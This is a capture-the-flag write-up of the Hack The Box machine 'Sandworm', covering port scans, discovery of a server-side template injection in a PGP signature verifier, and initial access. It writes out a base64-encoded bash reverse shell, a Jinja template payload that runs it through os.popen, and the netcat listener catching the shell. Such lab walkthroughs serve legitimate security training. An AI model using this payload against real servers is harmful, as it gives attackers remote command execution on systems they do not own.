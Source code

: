 ```yaml
---
layout: single
title: Sandworm - Hack The Box
excerpt: "Sandworm is a medium-difficulty machine on the HTB platform. In order to access it, we need to obtain a PGP key to carry out an SSTI (Server-Side Template Injection). We'll need to make some maneuvers between user accounts, and then, to elevate privileges, we'll take advantage of the SUID permissions of firejail."
date: 2023-08-24
classes: wide
header:
  teaser: assets/images/htb-writeup-Sandworm/intro.PNG
  teaser_home_page: true
  icon: assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Firejail
  - PGP
  - SSTI
  - SUID
---
```

![](../assets/images/htb-writeup-Sandworm/sandworm.jpeg)


**RECON**

**PORTS SCAN**

We performed a scan of all possible open ports on the victim machine.

```ruby
❯ sudo nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv 10.10.11.218 -oG allPorts
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-26 13:20 CEST
Initiating SYN Stealth Scan at 13:20
Scanning 10.10.11.218 [65535 ports]
Discovered open port 22/tcp on 10.10.11.218
Discovered open port 80/tcp on 10.10.11.218
Discovered open port 443/tcp on 10.10.11.218
Completed SYN Stealth Scan at 13:20, 11.42s elapsed (65535 total ports)
Nmap scan report for 10.10.11.218
Host is up, received user-set (0.052s latency).
Scanned at 2023-08-26 13:20:15 CEST for 12s
Not shown: 65330 closed tcp ports (reset), 202 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
           Raw packets sent: 66953 (2.946MB) | Rcvd: 65535 (2.621MB)

```

**SERVICE AND VERSION SCAN**

```ruby
❯ sudo nmap -p22,80,443 -sCV 10.10.11.218 -oN target
[sudo] contraseña para anonimo: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-26 13:38 CEST
Nmap scan report for ssa.htb (10.10.11.218)
Host is up (0.050s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Secret Spy Agency | Secret Security Service
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.37 seconds
```

We add the domain to the /etc/hosts file.

At the top of the page, there is a contact button that will redirect us to a form. This form is designed to send an encrypted PGP message. With this, we can check if there's a possibility of performing any kind of command execution.

![](../assets/images/htb-writeup-Sandworm/fotoWeb1.PNG)

If we look at the bottom of the text box, there is a link that redirects us to a guide. This guide involves sending a message using a public key, and the website allows us to practice with its own public key.

![](../assets/images/htb-writeup-Sandworm/fotoWeb2.PNG)

This is the GPG public key provided to us for conducting tests.

![](../assets/images/htb-writeup-Sandworm/fotoWeb3.PNG)

If we take a closer look at the guide, there's a signature verifier that allows us to use our own keys.

![](../assets/images/htb-writeup-Sandworm/fotoWeb4.PNG)

**Exploit with GPG**

What we will do now is generate our GPG key and check if it is vulnerable to STTI.

First, we will start by generating a PGP key on the following [page](https://youritmate.us/pgp/).

![](../assets/images/htb-writeup-Sandworm/fotoWeb5.PNG)

Afterwards, copy the private key on the next [page](http://www.2pih.com/pgp.html), paste the key, and enter the optional password if you set one. Then, input a message that you would like to use.

![](../assets/images/htb-writeup-Sandworm/fotoWeb6.PNG)

It's important to understand that we are conducting this test to assess what we can manipulate and, as we can see, we are able to manipulate the name.

![](../assets/images/htb-writeup-Sandworm/fotoWeb7.PNG)

So, let's check if it's vulnerable to SSTI by changing the "Your name" parameter.

The steps remain the same, we generate a new PGP key with the updated name.

![](../assets/images/htb-writeup-Sandworm/fotoWeb8.PNG)

Perfect! There's an SSTI.

![](../assets/images/htb-writeup-Sandworm/fotoWeb10.PNG)

**Intrusion**

We encode the reverse shell in base64.

```ruby
❯ echo "bash -c 'bash -i >& /dev/tcp/10.10.15.23/4444 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMy80NDQ0IDA+JjEnCg==
```

Now we will change the vulnerable SSTI parameter to the following payload.

```ruby
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMy80NDQ0IDA+JjEnCg==" | base64 -d | bash').read() }}
```
![](../assets/images/htb-writeup-Sandworm/fotoWeb11.PNG)

```ruby
❯ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.23] from (UNKNOWN) [10.10.11.218] 46060
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ ls
ls
SSA
atlas@sandworm:/var/www/html/SSA$ 
```

